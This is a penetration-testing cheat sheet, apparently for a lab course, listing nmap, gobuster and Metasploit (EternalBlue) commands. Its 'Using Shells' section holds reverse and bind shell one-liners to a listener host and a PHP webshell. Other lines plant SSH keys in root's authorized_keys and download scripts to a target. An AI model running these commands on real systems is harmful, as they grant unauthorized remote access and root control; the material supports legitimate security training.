 General

	sudo openvpn <vpnFile>            # connect to VPN
	ifconfig/ip a                     # show ip address
	netstat -rn                       # show networks accessible via the VPN
	ssh user@10.10.10.10              # SSH to a remote server
	ftp 10.129.42.253                 # FTP to a remote server

tmux

	tmux                     # start tmux
	ctrl+b                   # tmux: default prefix
	prefix c                 # tmux: new window
	prefix 1                 # tmux: switch to window (1)
	prefix shift+%           # tmux: split pane vertically
	prefix shift+"           # tmux: split pane horizontally
	prefix ->                # tmux: switch to the right pane

VIM

	vim <file>               # vim: open file with vim
	esc+i                    # vim: enter insert mode
	esc                      # vim: back to noraml mode
	x                        # vim: cut character
	dw                       # vim: cut word
	dd                       # vim cut full line
	yw                       # vim: copy word
	yy                       # vim: copy full line
	p                        # vim: paste
	:1                       # vim: go to line number 1
	:w                       # vim: write the file 'i.e. save'
	:q                       # vim: quit
	:q!                      # vim: quit without saving
	:wq                      # vim: write and quit

Pentesting

	nmap 10.129.42.253                     # run nmap on an IP
	nmap -sV -sC -p- 10.129.42.253         # run an nmap script scan on an IP
	nmap -sT --top-ports 100 -v -oG -      # top 100 TCP ports
	locate scripts/citrix                  # list various available nmap scripts
	nmap --script smb-os-discovery.nse -p445 10.10.10.40  # run an nmap script
	netcat 10.10.10.10 22                  # grab banner of an open port
	smbclient -N -L \\\\10.129.42.253      # list smb shares
	snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0  # scan SNMP on an IP 
	onesixtyone -c dict.txt 10.129.42.254  # brute force SNMP secret string

Web Enumeration

	gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt        # run a directory scan on a website
	gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt  # run a sub-domain scan on a website
	curl -IL https://www.inlanefreight.com     # grab website banner
	whatweb 10.10.10.121                       # list details about the webserver/certs
	curl 10.10.10.121/robots.txt               # list potential directories in robots.txt
	ctrl+U                                     # view page source (in Firefox)

Public Exploits

	searchsploit openssh 7.2            # search for public eploits for a web application
	msfconsole                          # MSF: start the Metasploit Framework
	search exploit eternalblue          # MSF: search for public exploits in MSF
	use exploit/windows/smb/ms17_010_psexec  # MSF: start using an MSF module
	show options                        # MSF: show required options for an MSF module
	set RHOSTS 10.10.10.40              # MSF: set a vlue for an MSF module option
	check                               # MSF: test if the target server is vulnerable
	exploit                    # MSF: run the exploit on the target server is vulnerable

Using Shells

	nc -lvnp 1234                       # start a nc listener on a local port
	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'      # send a reverse shell from the remote server
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f      # start a bind shell on the remote server
	nc 10.10.10.1 1234      # connect to a bind shell started on the remote server
	python -c 'import pty; pty.spawn("/bin/bash")'     # upgrade shell TTY(1)
	crtl+z -> stty raw -echo -> fg -> enter twice     # upgrade shell TTY(2)
	echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php     # create a webshell php file
	curl http://SERVER_IP:PORT/shell.php?cmd=id      # execute a command on an uploaded webshell

Privilege Escalation

	./linpeas.sh                      # run linpeas script to enumerate remote server
	sudo -l     # list available sudo privileges
	sudo -u user /bin/echo Hello World!     # run a command with sudo
	sudo su -     # switch to root user (if we have access to sudo su)
	sudo su user -     # switch to a user (if we have access to sudo su)
	ssh-keygen -f key     # create a new SSH key
	echo "ssh-rsa AAAAB...SNIP...M=user@parrot" >> /root/.ssh/authorized_keys     # add the generated public key to the user
	ssh root@10.10.10.10 -i key     # SSH to the server with the generated private key

Transferring Files

	python3 -m http.server 8000     # start a local webserver
	wget http://10.10.14.1:8000/linpeas.sh     # download a file on the remote server from our local machine
	curl http://10.10.14.1:8000/linenum.sh -o linenum.sh     # download a file on the remote server from our local machine
	scp linenum.sh user@remotehost:/tmp/linenum.sh     # transfer a file to the remote server with scp (requires SSH access)
	base64 shell -w 0     # convert a file to base64
	echo f0VMR...SNIO...InmDwU | base64 -d > shell     # convert a file from base64 back to its orig
	md5sum shell      # check the file's md5sum to ensure it converted correctly